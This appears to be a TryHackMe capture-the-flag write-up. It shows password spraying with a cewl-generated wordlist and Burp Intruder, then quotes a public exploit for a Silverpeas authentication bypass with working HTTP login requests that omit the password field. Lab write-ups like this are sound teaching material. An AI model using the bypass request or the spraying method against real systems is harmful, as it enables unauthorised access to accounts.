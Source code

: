 # Password Spraying Attacks using BurpSuitePro

I'll be using BurpSuitePro in this instance with intruder 

First Generating a Custom Wordlist with a help of tool named cewl

```bash
ashu㉿kali ~/TryHackMe/SilverPlatter cewl http://silverplatter.thm > custom_passwords.txt

ashu㉿kali ~/TryHackMe/SilverPlatter ls
custom_passwords.txt  vhost-fuzzer.sh

ashu㉿kali ~/TryHackMe/SilverPlatter cat custom_passwords.txt
──────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: custom_passwords.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
   2   │ the
   3   │ Item
   4   │ and
   5   │ Hack
   6   │ Smarter
   7   │ Security
   8   │ this
   9   │ adipiscing
  10   │ Default
  11   │ for
  12   │ you
  13   │ integer
  14   │ aliquet
  15   │ Tyler
  16   │ Heading
  17   │ Level
  18   │ felis
  19   │ faucibus
  20   │ with
  21   │ our
  22   │ that
  23   │ This
  24   │ accumsan
  25   │ lorem
  26   │ Dolor
  27   │ pulvinar
  28   │ etiam
  29   │ Felis
  30   │ enim
  31   │ feugiat
  32   │ Ante
  33   │ turpis
  34   │ porttitor
  35   │ arcu
  36   │ skills
  37   │ Intro
  38   │ Work
  39   │ About
  40   │ Contact
  41   │ Elements
  42   │ digital
  43   │ Ramsbey
  44   │ basement
  45   │ where
  46   │ hacking
  47   │ try
  48   │ hard
  49   │ tempus
  50   │ ipsum

```

## Using Intruder Tab to spray the passwords on with Intercept On

- By Filtering the response length I think this is the password 

![[Pasted image 20250222194535.png]]

Let's Try Logging In 

![[Pasted image 20250222194756.png]]

Got Logged In 


# Exploiting a vulnerability of Authentication Bypass with a CVE 


## Exploit Title: Silverpeas CRM - Authentication Bypass
https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

Silverpeas up to and including 6.3.4 is vulnerable to a trivial authentication bypass. When authenticating, if the sender omits the password form field, the application will sign you in as the user specified without any challenge.

E.g. the standard login request will look like this:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&Password=SilverAdmin&DomainId=0
```

This will fail login (unless they have forgotten to change the default password) and you will be redirected back to the login page with an error code.

But if you remove the password field like this:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&DomainId=0
```

Then the login attempt will (usually) succeed and redirect you to the main page, now logged in as a super admin.

The bug works with any valid user, but SilverAdmin is the default super admin.

